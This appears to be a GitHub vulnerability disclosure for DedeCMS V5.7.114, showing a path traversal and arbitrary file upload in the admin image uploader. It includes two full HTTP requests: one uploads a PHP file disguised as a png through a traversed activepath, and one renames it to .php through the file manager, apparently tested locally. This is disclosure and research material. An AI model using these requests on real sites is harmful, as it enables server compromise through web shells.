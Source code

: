 # Dedecms Path traversal+arbitrary file upload(other enter)

​	The image file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708130926507.png)

​	E: \ seebug \ phpstudy_pro is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path.This time I chose E:\seebug\phpstudy_pro\WWW\127.0.0.1_9600\ as the destination path for file upload, because PHP scripts can be parsed in this way

![image-20240708113031935](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708113031935.png)

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

​	vulnerability mainly appears at the compressed file upload location

![image-20240712145025480](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240712145025480.png)

```http
POST /include/dialog/select_images_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 1971
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3Mt7CAkNjyzWYBFm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_images.php?f=form1.picname&noeditor=yes&imgstick=undefined
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=267c4d98da681002ab955b10f8e0e3c3; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=1d4b8a59aa88baa3; DedeLoginTime=1720418572; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=9c25d28547e20a28; ENV_GOBACK_URL=%2Fdede%2Fcontent_list.php
Connection: close

------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="noeditor"

yes
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="activepath"

/uploads/..
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="f"

form1.picname
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="v"

picview
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgstick"

undefined
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="CKEditorFuncNum"

1
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgfile"; filename="0.php.png"
Content-Type: image/png

<?php echo 123;?>
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iwidth"

240
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iheight"

180
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundary3Mt7CAkNjyzWYBFm--
```

​	`Select_images_post. php 'did not perform sufficient filtering on the activepath parameter, so it is possible to bypass the file suffix blacklist by modifying the value of activepath to a file name with a suffix of' php ', and combined with the first two path traversal vulnerabilities to achieve arbitrary file upload vulnerabilities

![image-20240708150758976](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708150758976-1720768330908-73.png)

​	Here, you can also use the built-in file management system in the 'dedecms' backend to rename files and enable them to parse and run normally.

```http
POST /dede/file_manage_control.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 147
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:9600/dede/file_manage_view.php?fmdo=rename&filename=inde1x.Php&activepath=%2Fuploads
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=ef87ce85f5d16c9875d2c6089936835b; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=c1e0489e3c20f4bf; last_vtime=1720421835; last_vtime1BH21ANI1AGD297L1FF21LN02BGE1DNG=070401ac415b7cb7; last_vid=admin; last_vid1BH21ANI1AGD297L1FF21LN02BGE1DNG=501af9a85db1a161; OrdersId=9448BQQIAFJRAgIFAQIIXQINU1cPAAFRVAIGAwY2FGYEVQAFAAoGVlAAYHsGBgY; ENV_GOBACK_URL=%2Fmember%2Fcontent_list.php%3Fchannelid%3D6; DedeLoginTime=1720426605; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=629ca267a38c9755; Shop_De_85=626cVlNVBgkHU1FVU1QBAAFTDwVTCVJXUgkDUlNbAV8OB0QWEQxVXApTRxANCxBFCkVVRxpfRFtcARdACkYJBwsXJ1VGXQYcDyJEIFtHJXMSIXYXJgkUdycVcHBGd1ZHDgJHXiFAcw0SISBAWyE; Shop_De_78=b741AwUHVAQBCAIBUlIFVwhVWg8GXwMEAAVaClRQAgUCARBDR14HUQwNAhcXWFkVQgxHc1NDCXETdyAUBkwfVkBUCwITQw1AXV0PFCcFFVkBFFp3QCMFF3dyRgsiHCMNEHhyFgwHQXECHQoBRw5y
Connection: close

fmdo=rename&activepath=%2F240708&filename=1-240FQ50614S6.png&oldfilename=1-240FQ50614S6.png&newfilename=index1.php&imageField1.x=31&imageField1.y=6
```

![image-20240708165441039](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708165441039-1720768385667-77.png)

![image-20240708164949322](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708164949322-1720768392957-79.png)

​	Successfully modified '127.0.0.1,9600 \ 240708 \ 1-240FQ50614S6. png' to '127.0.0.1,9600 \ 240708 \ index1php'`

![image-20240708165348465](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708165348465-1720768414007-81.png)